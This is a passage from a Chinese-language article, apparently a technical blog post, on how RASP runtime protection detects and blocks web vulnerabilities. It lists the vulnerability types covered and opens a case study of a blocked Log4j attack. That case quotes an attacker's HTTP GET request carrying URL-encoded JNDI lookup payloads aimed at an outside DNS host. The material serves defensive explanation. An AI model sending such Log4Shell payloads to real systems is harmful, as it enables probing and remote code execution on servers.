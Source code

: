 **不安全的文件上传漏洞：**（下图仅作示例，非实际截图）

![](./rasp-technology-in-offensive-and-defensive-practice/assets/17617403250850.40777278445443776.png)

除此之外，RASP可以检测和阻断的漏洞类型还包括：

1. 不安全的文件操作漏洞

2. 反射型XSS漏洞

3. XML外部实体注入（XXE）漏洞

4. 远程代码执行（RCE）漏洞

5. 不安全的反序列化漏洞

6. 服务器端请求伪造（SSRF）漏洞

7. 敏感信息泄露漏洞

8. DNS攻击漏洞

9. URL跳转漏洞

下面我们以其中的三次拦截作为RASP防护原理和效果的示例。

### **Log4j远程代码执行漏洞防护**

在对某系统的攻击中，攻击者尝试利用Log4j漏洞对某系统进行远程代码执行攻击。攻击者构造了一个恶意的HTTP GET请求（如下），其中包含了利用JNDI进行远程代码执行的参数。

> GET http://xxxx.com/bi/?action=%24%7Bjndi%3Adns%3A%2F%2Fi-5407cf-ubbh-d574.dns.xxx.com%7D&proc=%24%7Bjndi%3Adns%3A%2F%2Fi-5407cf-ubbh-d574.dns.xxx.com%7D&resource=%24%7Bjndi%3Adns%3A%2F%2Fi-5407cf-ubbh-d574.dns.xxx.com%7D
